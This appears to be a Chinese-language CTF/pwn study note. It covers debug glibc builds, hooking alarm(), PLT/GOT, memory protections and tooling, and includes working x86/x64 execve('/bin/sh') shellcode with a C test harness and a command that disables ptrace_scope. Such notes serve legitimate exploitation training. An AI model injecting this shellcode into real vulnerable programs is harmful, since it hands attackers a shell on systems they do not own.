 ## 一些资源

```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcodes/
[linux pwn 入门教程 i春秋](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)
[格式化字符串](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=43624&ctid=157)
[调整栈帧的技巧](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42534&ctid=157)
[PIE无关](https://bbs.ichunqiu.com/thread-43627-1-1.html)
```

## 编译带 debug symbol 的 glibc

### download

[glibc](http://gnu.mirrors.pair.com/libc/)

### make

解压后，要创建额外的 build 目录，直接在 glibc 目录下创建了 build 目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile 编译选项
`-g`:包含调试信息是 OS native format
`-ggdb`: 供 gdb 使用的调试信息
`-g3`: 产生额外的 debug 信息
`-gdwarf-4`: 产生 dwarf 格式的 debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与 GNU/Linux 行为不一致

```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror
```

### use

运行前需要加环境变量,
example:`export LD_LIBRARY_PATH=/root/app/glibc22364/lib/

### 排错

`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个 bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉 alarm

很多题目都有 alarm 函数防止 Dos 攻击，超过指定的时候后程序就会退出，不便于 debug，通常有几种干掉 alarm 的方法：

- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD

```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```

编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got

![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向 got,采用延时绑定。printf 函数中，0x404c010 实际内容是下一条指令`push 0`,
而 plt.got 是已经绑定的， puts 函数的 0x804bff4 是指向实际 puts 函数的

## PIC 地址无关 PIE

[看这篇文章](https://www.polarxiong.com/archives/%E5%A6%82%E4%BD%95%E7%90%86%E8%A7%A3DLL%E4%B8%8D%E6%98%AF%E5%9C%B0%E5%9D%80%E6%97%A0%E5%85%B3%E7%9A%84-DLL%E4%B8%8EELF%E7%9A%84%E5%AF%B9%E6%AF%94%E5%88%86%E6%9E%90.html)

## shellcode

### x86
int 0x80调用需要设置5个寄存器
eax = 11 = 0xb, ebx = &(“/bin/sh”), ecx = edx = edi = 0.
```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

20bytes:

```x86asm
  xor ecx,ecx
  cdq
  push ecx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx,esp
  mov al,0xb
  int 0x80
```

### x64

24bytes:

```x64asm
global _start
section .text
_start:
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```

22bytes:

```x64asm
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
  push rdx
	pop rsi
	syscall
```

```c
#include <stdio.h>
#include <string.h>
char code24[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
char code22[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code24));
    (*(void(*)()) code)();
    return 0;
}
```

### 制作方法

linux 下

- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode 的。
- 使用`xxd -i [target]`将上述 shellcode 转为 char 数组
  相关工具
- https://github.com/Neetx/Shellcode-Extractor
  从 elf 提取 shellcode

## 生成可打印的 shellcode

TODO:  
http://blog.eonew.cn/archives/1125

## 漏洞挖掘方法

- 现成 CMS 注意 DIFF
- 根据漏洞 PATCH
- 根据漏洞写出 EXP，发动攻击
-

## 保护

NX:DEP 栈不可执行，可执行不可写 ROP 绕过
ALSR: 把每次载入的函数地址随机化，利用 puts/printf 等 leak 出 libc 的实际地址

## strace

strace 可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败

```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```

## LD_PRELOAD、 LD_SHOW_AUXV

- LD_PRELOAD 可以指定一个或多个共享库文件，linux 加载器`ld-linux`会先于 glibc 加载 LD_PRELOAD 指定的库。  
  用途：HOOK 掉 alarm。  
  为了避免用于恶意攻击，在 ruid !=euid 的情况下加载器是不会使用 LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试
